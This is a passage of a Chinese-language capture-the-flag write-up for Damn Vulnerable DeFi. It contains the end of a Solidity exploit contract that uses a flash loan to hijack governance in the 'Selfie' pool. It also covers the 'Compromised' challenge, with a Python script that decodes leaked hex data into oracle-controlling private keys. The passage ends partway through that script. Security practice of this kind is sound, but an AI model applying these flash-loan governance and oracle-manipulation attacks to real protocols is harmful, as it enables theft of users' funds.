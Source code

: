```
    }

    function exploitSetup(address recovery) external returns(bool){
        uint amountRequired = 1_500_000e18;
        bytes memory data = abi.encodeWithSignature("emergencyExit(address)", recovery);
        selfiePool.flashLoan(IERC3156FlashBorrower(address(this)), address(damnValuableToken), amountRequired, data);
    }
    function exploitCloseup() external returns(bool){
        bytes memory resultData = simpleGovernance.executeAction(actionId);
    }
}
```

### Compromised

[題目](https://www.damnvulnerabledefi.xyz/challenges/compromised/): 在瀏覽一個最受歡迎的DeFi項目之一的網絡服務時，你從服務器那裡得到了一個奇怪的響應。以下是其中的一段：
```
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```
一個相關的鏈上交易所正在出售名為“DVNFT”的（價格荒誕地高）的收藏品，目前每個價格為999 ETH。這個價格是由一個基於三個可信報告者的鏈上預言機獲取的，這三個報告者分別是：0x188...088、0xA41...9D8 和 0xab3...a40。
你開始時賬戶餘額僅為0.1 ETH，通過將交易所中可用的所有ETH救出來來完成挑戰。然後將資金存入指定的回收賬戶中。

過關條件:
- exchange 合約地址中的ETH餘額必須為0.
- recovery 地址中的ETH餘額必須等於exchange的初始ETH餘額
- player的NFT餘額必須為0
- 預言機中的DVNFT價格必須保持不變，仍然等於初始NFT價格（INITIAL_NFT_PRICE），確保挑戰過程中沒有操縱價格

解題:
- leaked_infomation decode出來後是兩個錢包私鑰, 這兩個錢包可以設定 oracle price
```
import base64

def hex_to_ascii(hex_str):
    ascii_str = ''
    for i in range(0, len(hex_str), 2):
        ascii_str += chr(int(hex_str[i:i+2], 16))
    return ascii_str

def decode_base64(base64_str):
    # Decode Base64 to ASCII
    return base64.b64decode(base64_str).decode('utf-8')

leaked_information = [
    '4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30',
    '4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35',
```